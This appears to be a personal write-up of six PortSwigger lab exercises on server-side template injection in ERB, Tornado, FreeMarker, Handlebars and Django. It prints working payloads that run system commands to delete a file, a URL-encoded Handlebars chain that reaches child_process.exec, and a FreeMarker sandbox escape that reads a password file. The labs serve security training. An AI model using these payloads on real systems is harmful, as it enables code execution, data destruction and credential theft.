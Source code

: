 # Portswigger Writeups

## Lab 1: Basic SSTI

When viewing the requests sent upon viewing a product, this is what I see:

![](../../.gitbook/assets/portswigger-ssti-writeup-image.png)

Further testing reveals that this `message` parameter is printed on the screen:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-1.png)

Using `<%= 7/0 %>` causes a 500 error. This means that the template is processing information insecurely. Using this, I can execute `system("rm /home/carlos/morale.txt")`.

## Lab 2: Basic SSTI with Code Context

This lab provides me with a 'preferred name' feature:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-2.png)

When the request is viewed, I saw that it uses `user.first_name`.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-3.png)

It looks like this is dynamically retrived. This lab uses a Tornado template, and since it uses `user.first_name`, the input might be processed like this:

```
{{user.first_name}}
```

Since the above is probably not sanitised, I can do enter `}}{{6*6`. This might cause the expressions evaluated to be:

```
{{user.first_name}}{{6*6}} (the last 2 brackets are automatically there)
```

The method above works, and the '36' is reflected when I leave a comment on a post. Using this method, one can execute Python using the following format:

```
{% import os %}{{os.system('rm /home/carlos/morale.txt')
```

Afterwards, leave a comment on any post.

## Lab 3: Using Documentation

This particular lab requires us to identify the template engine used.

The lab provides us with a 'Edit template' option.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-4.png)

Using this, I can attempt to identify the template used using this payload:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```
The first one is processed!

![](../../.gitbook/assets/portswigger-ssti-writeup-image-5.png)

I went to PayloadAllTheThings and tested all the frameworks of which this worked with, and found that it was FreeMarker being used:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-6.png)

There are quite a few payloads for code execution:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-7.png)

The rest of the lab is trivial.

## Lab 4: Unknown Language

Firstly, this lab uses the `message` parameter, and using `{{7*7}}` results in an error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-8.png)

The above uses Handlebars. Hacktricks has a payload for this, which can be modified to solve the lab:

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm+/home/carlos/morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

## Lab 5: Information Disclosure via User-Supplied Objects

To solve this lab, steal the secret key from the website. By trying to edit the content of a post with this:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

It causes this error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-9.png)

So this runs on Django. Using `{% debug %}` reveals a ton of information, and actually it shows some Jinja2 debug stuff:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-10.png)

I can then use this payload to extract the key to solve the lab:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-11.png)

## Lab 6: Sandboxed Environment

This lab uses the Freemarker template engine. To solve the lab, read `/home/carlos/my_password.txt`. This lab gives us `content-manager` access.

{% embed url="https://portswigger.net/research/server-side-template-injection" %}

This is the payload they used:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![](../../.gitbook/assets/portswigger-ssti-writeup-image-12.png)

Converting this to ASCII and submitting that solves the lab. I will dive into this exploit...another time.